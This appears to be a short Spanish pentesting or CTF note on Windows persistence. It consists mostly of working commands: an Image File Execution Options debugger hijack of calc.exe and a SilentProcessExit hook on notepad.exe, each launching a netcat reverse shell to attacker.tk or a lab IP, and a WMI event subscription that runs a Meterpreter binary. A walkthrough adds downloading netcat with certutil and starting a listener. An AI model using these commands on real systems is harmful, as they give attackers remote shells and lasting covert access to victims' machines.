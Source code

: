 3 Tareas para garantizar la persistencia:
```python
[+] First Way
    
copy calc.exe _calc.exe
    
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C _calc.exe & c:\windows\nc.exe -e c:\windows\system32\cmd.exe attacker.tk 8888" /f`
    

[+] Second Way
    
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
    
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
    
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "nc -e \windows\system32\cmd.exe attacker.tk 8888"
    

[+] Third Way
    
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="persistence", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
    
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="persistence", ExecutablePath="C:\users\admin\meter.exe",CommandLineTemplate="C:\users\admin\meter.exe"
    
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name="persistence"", Consumer="CommandLineEventConsumer.Name="persistence""

```

### Primera forma (Se ejecuta al abrir)
Lo primero es trasferir netcat a la victima. APra ello levantamos servidor python3 y lo descargamos desde la victima:
```python
python3 -m http.server 4567
```
Y en la victima...
```python
certutil.exe -f -urlcache -split http://10.10.14.49:4567/nc64.exe
```

Una vez lo tengamos ponemos el siguiente comando en la victima, si tenemos que modificar algo es a partir de &:
```python
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C _calc.exe & C:\Windows\Temp\nc64.exe -e cmd 10.10.14.49 4567" /f
```
Y en nuestra maquina nos ponemos en escucha en el puerto que pusimos:
```python 
rlwrap nc -nlvp 4567
```
